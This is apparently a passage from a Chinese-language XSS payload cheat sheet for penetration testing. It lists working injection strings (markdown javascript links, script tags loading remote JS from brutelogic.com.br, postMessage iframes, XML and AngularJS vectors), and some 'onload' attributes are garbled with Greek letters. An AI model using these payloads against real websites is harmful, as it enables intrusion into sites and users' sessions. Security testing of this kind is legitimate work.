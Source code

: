 ```
当网站服务器端PHP代码，将当前URL当作HTML表单属性值进行获取。payload在斜杠（/）在php扩展名和查询部分的开始（？）之间插入。<br>

https://brutelogic.com.br/xss.php/"><svg οnlοad=alert(1)>?a=reader
```

##### 20.Markdown Vector (Markdown 组件测试)

```
在网站允许某些markdown标记，比如：输入的文本框，注释部分等中使用payload。点击触发。<br>

[clickme](javascript:alert`1`)
```

##### 21.Script Injection - No Closing Tag (脚本注入-没有结束标记)

```
payload在反射后的javascript代码中有结束脚本标签（</script>）时使用。 <br>

<script src=data:,alert(1)>
<script src=//brutelogic.com.br/1.js>
```

##### 22.Javascript postMessage() DOM Injection (with Iframe) (Javascript postMessage() DOM注入（带有Iframe）)

```
在JavaScript代码中有"message"事件监听器(如"window.addEventListener('message',...)")时使用该payload，并且服务器端没有检查来源。 如果能够对目标进行请求伪造（根据http请求 X-Frame Options标头）。 则另存一个HTML文件（或者使用data:text/html，以提供TARGET_URL和INJECTION（xss payload）进行测试。<br>

<iframe src=TARGET_URL οnlοad="frames[0].postMessage('INJECTION','*')">
```

##### 23.XML-Based XSS (基于XML的XSS)

```
该payload用于在XML页面(内容类型为text/xml或application/xml）中进行测试。如果输入点位于注释部分，则在payload前添加"->"；如果输入位于CDATA部分，则将"->"添加payload。<br>

<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>
<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="//brutelogic.com.br/1.js"/>
```



#### 0x02高级


##### 24.AngularJS Injections (v1.6 and up) (AngularJS注入(v1.6及更高版本))。

```
第一个payload用于在页面中，带有ng-app指令的HTML块中进行测试。 第二个payload用于创建自己的AngularJS库时使用。

{{$new.constructor('alert(1)')()}}
<x ng-app>{{$new.constructor('alert(1)')()}}
```
